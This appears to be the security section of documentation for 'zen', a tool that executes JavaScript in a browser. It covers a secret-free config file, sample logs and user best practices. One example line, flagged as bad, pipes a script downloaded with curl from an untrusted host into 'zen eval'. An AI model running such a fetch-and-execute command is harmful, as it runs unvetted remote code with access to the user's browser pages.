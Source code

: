 Configuration file contains **no sensitive data**:

```json
{
  "ai-language": "nl",
  "control": {
    "auto-refocus": "always",
    "speak-all": true,
    "verbose": true
  }
}
```

**Properties**:

- ✅ No API keys
- ✅ No passwords
- ✅ No tokens
- ✅ Safe to commit (if desired)

#### No Secrets in Logs

Server logs connection events only:

```
HTTP server running on http://127.0.0.1:8765
WebSocket connection opened (active: 1)
Request abc-123: pending
Request abc-123: completed (success)
```

**Properties**:

- ✅ No page content logged
- ✅ No sensitive data logged
- ✅ Request IDs are UUIDs (not predictable)
- ✅ Error messages sanitized

## Best Practices

### For Users

#### 1. Only Run Trusted JavaScript

```bash
# ✅ Good: Review script first
cat my_script.js
zen exec my_script.js

# ✅ Good: Understand inline code
zen eval "document.querySelectorAll('a').length"

# ❌ Bad: Run unknown script
curl https://untrusted.com/script.js | zen eval  # DON'T!
```
